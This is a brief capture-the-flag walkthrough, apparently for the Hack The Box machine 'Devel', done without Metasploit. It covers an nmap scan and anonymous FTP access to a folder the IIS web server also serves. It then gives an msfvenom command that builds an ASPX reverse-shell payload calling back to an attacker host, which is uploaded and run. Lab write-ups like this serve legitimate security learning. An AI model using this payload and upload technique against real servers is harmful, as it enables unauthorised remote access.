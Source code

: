 Devel without Metasploit:

![Devel](https://user-images.githubusercontent.com/55708909/91413269-7f683500-e868-11ea-8bfa-29ec7f6b1608.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.5

![Devel_nmap](https://user-images.githubusercontent.com/55708909/91413112-492ab580-e868-11ea-9a51-ab777d532f6e.png)

As we have only two ports open we are going to enumerate these two ports

FTP anonymous login is allowed

![Devel_ftp](https://user-images.githubusercontent.com/55708909/91413595-fb627d00-e868-11ea-9607-ee58e55352cc.png)

Find out that FTP & WEB server is on the same path therefore if we upload a shell from FTP we will be able to execute through web server and get reverse shell

![Devel_web](https://user-images.githubusercontent.com/55708909/91413962-7b88e280-e869-11ea-87fc-fcb94663eeca.png)

Since it is IIS7 I guess we can upload a payload in ASP OR ASPX

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > shell.aspx

Then login in through FTP Server put it & execute it through WEB Server

Here we have a reverse shell from target machine

![Devel_flag](https://user-images.githubusercontent.com/55708909/91415706-11257180-e86c-11ea-8324-b812e92cbe25.png)










